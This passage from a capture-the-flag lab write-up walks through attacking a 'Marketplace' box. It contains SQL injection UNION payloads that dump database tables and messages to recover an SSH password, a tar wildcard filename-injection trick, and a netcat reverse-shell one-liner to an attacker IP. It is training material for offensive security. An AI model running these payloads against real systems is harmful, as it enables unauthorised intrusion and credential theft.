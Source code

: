 ```js
UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7C) ,3,4 fRoM information_schema.tables wHeRe table_schema='marketplace' -- -
```

<br>
- select messages
```js
union select group_concat(column_name,'\n'),2,3,4 from information_schema.columns where table_name='messages'-- -
```
![messagetable](/assets/thm-marketplace/messagetable.png)

- get message_content and user_from

```js
user=0 union select 1,group_concat(message_content,user_to),3,4 from marketplace.messages-- -
```

![table](/assets/thm-marketplace/messagecontent.png)

and we get our ssh password for user 3 now we just gotta go back and check whos user three and its jake

and we get our user.txt
![user](/assets/thm-marketplace/usertxt.png)

## Privesc

running linpeas on the box we see an interesting directory which is in `/opt/backup`
checking the backup.sh file we see its backing up the files using tar and wildcard `*`
and wildcild is exploitable so lets craft the exploit

![jake](/assets/thm-marketplace/jakeopt.png)

#### Horizontal privesc

lets privesc horizontally to get michael since the wildcard operator is exploitable we can go to gtfobins for the payload

```bash
echo "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOURIP 4242 >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

then we can execute the payload but we get permission denied so we do `chmod 777` on backup.tar and shell.sh
![michael](/assets/thm-marketplace/michael1.png)
for some reason i messed that one up soo i tried again
![michael](/assets/thm-marketplace/michael2.png)
and we got a hit
we must stabilize the shell with `python3 -c 'import pty;pty.spawn("/bin/bash")'`
now if we do id on michael we see were in docker container so gtfobins says
